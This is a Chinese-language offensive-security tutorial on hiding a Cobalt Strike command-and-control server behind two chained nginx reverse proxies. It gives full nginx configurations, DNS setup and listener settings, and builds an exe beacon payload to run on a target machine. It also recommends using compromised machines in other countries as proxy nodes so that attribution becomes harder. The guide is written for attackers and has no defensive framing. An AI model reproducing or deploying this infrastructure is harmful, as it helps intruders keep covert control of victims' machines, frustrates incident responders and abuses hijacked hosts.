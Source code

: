 ```yaml
---
title: "尝试将 C2 隐匿于多级 nginx 反向代理"
id: zhfly3648
---
```


# 尝试将 C2 隐匿于多级 nginx 反向代理

## 关于利用多级 nginx 反代实现 beacon 上线的大致思路拓扑

![image](../img/1fa9d4d2abee868405d174c96e6c2d36.png)

> 大致思路是这样,首先,我们会用一个 CS 的外部 http 监听器先把流量弹到第一层的 nginx 反代理节点上,因为事先已经在 mail 这台机器上做好了反代配置,而这个反代配置里实际指向的是我们第二层 nginx 反代节点的域名,所以当回连的流量一过来就会直接被抛到第二层的 nginx 反代节点上,由于又事先在第二层反代节点上也做好了反代配置,不过这次配置里指向的并不是别的地方,而是我们真实的 C2 服务器域名,所以最终导致的结果就是,目标机器回连流量在通过众多的 nginx 反代节点之后正常上线,大家自己实际操作过程中,务必要先对着拓扑理解清楚再动手,不然你可能会觉得有些乱,其实,说实话,没啥技术含量,完全都是些基础的堆砌加灵活应用而已,来看实际操作吧

### 0x01 首先,同时在两台 nginx 反代节点的 vps 机器上编译安装好 nginx,过程非常简单,如下

```
# apt-get install build-essential libtool libpcre3 libpcre3-dev zlib1g-dev openssl -y
# useradd -s /sbin/nologin -M nginx 切记不要以高权限起服务
# wget http://nginx.org/download/nginx-1.14.1.tar.gz
# tar xf nginx-1.14.1.tar.gz
# cd nginx-1.14.1
# ./configure --prefix=/usr/local/nginx-1.14.1 --user=nginx --group=nginx --with-http_ssl_module --with-http_stub_status_module --with-http_gzip_static_module
# make && make install
# echo $? 
```

![image](../img/bc7f2057ea91569d068f72538029cba0.png)

![image](../img/8f85d5b90e3e31ae44610aa7d830ec4e.png)

### 0x02 接着,再回到自己本地的 linux 机器上

> 启动 CobalStrike 客户端,连到自己的 C2 服务器,然后创建两个 常规 HTTP 协议,端口为 80 [ 注: 两个监听器的协议必须匹配 ] 的监听器,一个就是反向监听器 [ 特别注意下这个反连域名,是真正的 C2 服务器域名,即 oa.finalc2.com,也就是等会儿要从第二层 nginx 反代节点往后抛的域名 ]

![image](../img/1685aa74e04f268767d72a60452855aa.png)

另外再创建一个相同协议端口的外部监听器,注意,这个外部监听器的回连域名要写第一层 nginx 反代节点的域名[ 即 mail.first.com ],因为回连的流量会首先被弹到这里,然后再通过层层反代直至抛到后端真实的 C2 服务器,最后,再用这个外部监听器创建一个 exe payload,等会儿要把它丢到目标机器执行

![image](../img/ab223e7b17408f2f31d9d24c0012f262.png)

> 如下,两个监听器准备就绪

![image](../img/1e9a82782d247c0724d84e3a8a911226.png)

### 0x03 由于此处全程都是用域名在操作,所以务必请提前配置好所有域名解析,只需添加一条对应的 A 记录 即可

```
mail.first.com 21.67.38.47 
```

![image](../img/ae94dc1da273916b87763c5a8cce6938.png)

```
host.second.com 187.50.112.135 
```

![image](../img/c318a5b5282a60f703dc00f34066cac3.png)

```
oa.finalc2.com 208.36.69.66 
```

![image](../img/7a3041621964c1f5381039cf11d3e942.png)

### 0x04 开始配置第一层 nginx 反代节点

也就是在 21.67.38.47 这台机器上,配置过程非常简单,如下

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

upstream default_pools{

server [host.second.com:80](http://host.second.com:80); 到达本机的所有 80 端口的流量都会被后抛到这个域名上

} `server {

listen 80;

server_name [host.second.com](http://host.second.com);

location / {

proxy_pass http://default_pools;

}

}

}` 
```

> 配置完成后,务必要记得立即重启 nginx 服务使配置生效

```
# ifconfig | grep 'inet addr'
# /usr/local/nginx/sbin/nginx -s quit
# /usr/local/nginx/sbin/nginx 
```

![image](../img/cc22810540dc147f6c51c308f0e4fa68.png)

### 0x05 开始配置第二层 nginx 反代节点

> 也就是在 187.50.112.135 这台机器上,过程基本同上,只不过这次是把流量直接抛给了后端的真实 C2 服务器

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

upstream default_pools{

server [oa.finalc2.com:80](http://oa.finalc2.com:80); 真实 C2 域名

} `server {

listen 80;

server_name [oa.finalc2.com](http://oa.finalc2.com);

location / {

proxy_pass http://default_pools;

}

}

}` 
```

> 之后,同样务必要记得立即重启 nginx 服务使配置生效

![image](../img/dd909316c373d50b097dc3cece59c749.png)

> 此时,当我们回到目标机器上正常执行 payload 后,便会看到 beacon 正常上线,如下,从目标机器的网络连接中也不难发现,其实,这个连接显示的 ip 也只是我们上面第一层 nginx 反代节点的ip,而真实的 C2 服务器却被隐藏在了后端好几层,再加上如果中间的 nginx 反代节点全部都是直接拿不同国家地域的肉鸡搞的[高度匿名化],这无疑再一次加大了对方的溯源难度和成本

![image](../img/31e4521656fe8d723b3bb2f50a91f9c2.png)

> 另外,从 CS web log 里我们也清晰的看到,所有请求都是从 187.50.112.135 [即 host.second.com 第二层 nginx 反代节点 ]这台机器过来的,至此,也说明我们的多级反代确实是成功有效的

![image](../img/d92138dbecded0d29dcef34281ebf24a.png)

## 小结:

至此为止,关于如何利用多级 nginx 反代,来实现 C2 的深度隐藏基本也就说完了,多次实战检验,传输确实挺稳定的,说实话,没太多技术含量,还是那句话,都是些非常简单的基础配合利用,文章初衷也是为了给弟兄们提供一个简单易用的 demo,其实,在实战中,你完全可以把这个搞的非常的复杂,比如,利用一些比较稳定的肉鸡群做成一个非常庞大的全球反代网,这些就要靠弟兄们自己思考了,ok,再多的就不说了,其实话说到这儿,理解的弟兄,应该也都早已经理解了,不过退一步来讲,这样隐藏 C2 其实还是不够彻底,因为,毕竟我们此时的 C2 还是直接被暴露在公网中,既然是在公网,那就肯定有被扫到或者反捅的风险,比如,你的 C2 直接用的 CobaltStrike 这种东西来搞的,万一哪天 CS 再爆洞,你可能又是第一批受害者,所以...弟兄们应该都能理解了,在下个章节中我们将会简单介绍,如何用避免直接把 C2 暴露在公网中的方式去隐藏,并实现本地 beacon 上线,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运